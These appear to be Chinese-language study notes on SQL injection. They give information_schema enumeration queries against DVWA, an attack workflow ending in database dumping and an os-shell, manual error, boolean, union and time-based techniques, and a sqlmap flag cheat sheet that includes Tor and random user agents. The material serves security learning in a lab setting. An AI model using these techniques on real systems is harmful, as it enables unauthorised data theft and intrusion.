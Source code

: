    ```sql
   select group_concat(column_name),table_name,table_schema from information_schema.columns where table_schema='yazd' group by table_schema,table_name;
   
   select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 1;
   select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
   ```

4. 

### SQL注入流程

1. 判断是否存在 SQL 注入漏洞及注入点
2. 判断操作系统、数据库及 WEB 应用类型
3. 获取数据库信息，包括管理员信息及拖库
4. 破解加密的信息，sqlmap 可自动破解
5. 提升权限，获取 sql-shel、os-shell、登陆应用后台

### 手动注入

1. 基于错误的注入

   思路：通过构造特殊的 sql 语句，根据得到的错误信息确认注入点。通过数据库报错信息，也可以探测到数据库的类型和其他有用信息。一般通过输入引号触发数据库异常，通过异常日志判断数据库类型

2. 基于布尔的注入

   思路：通过闭合 SQL 语句，构造`or`或`and`的逻辑语句、注释多余的代码

3. 基于联合查询的注入

   `union`语句用于联合前面的`select`语句，合并查询更多信息，一般通过错误和布尔注入确认注入点后，再通过`union`语句获取有效的信息

   1. 猜字段：因为`union`查询前后语句查询字段数必须一致，所以必须先猜测前面查询语句查询了几个字段，同时查看回显位
   2. 构造 SQL 语句：在回显位查询想要的信息

4. 基于时间的盲注

   有些数据库对错误信息做了安全配置，使得无法通过上面的方法探测注入点，此时可以使用`sleep(num)`函数

### 自动化注入

sqlmap 支持 MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird、Sybase 和 SAP MaxDB 等数据库的各种安全漏洞

```shell
--users	#获取所有用户名
--current-user	#获取当前用户名
--dbs #获取所有数据库名
--current-db	#获取当前数据库名
-D databasename	#指定数据库，多个库名用逗号隔开，且用双引号包裹
--tables	#获取指定数据库的全部表名
-T tablename	#指定表名，多个表名用逗号隔开，且用双引号包裹
--columns	#获取指定表的所有字段名
-C columnname	#指定字段名，多个字段用逗号隔开，且用双引号包裹
--dump	#下载指定数据库或指定表或指定字段的数据
--dump-all	#下载所有数据
--dbms=DBMS	#设置目标数据库类型，如：mysql
-u "http://url"	#指定测试的url
-p TESTPARAMETER	#指定测试 url 中的某个参数，多个参数用逗号隔开，且用双引号包裹

--batch	#所有选择都采用默认选择
--proxy="http|https|sock4|sock5:ipaddress"	#使用代理连接
--random-agent	#使用随机的浏览器标识
--tor	#使用 tor 匿名网络
--check-tor	#检查 tor 是否能使用
--cookie "cookieID=cookieVula"	#设置 cookie，多个 cookie 用分号隔开

```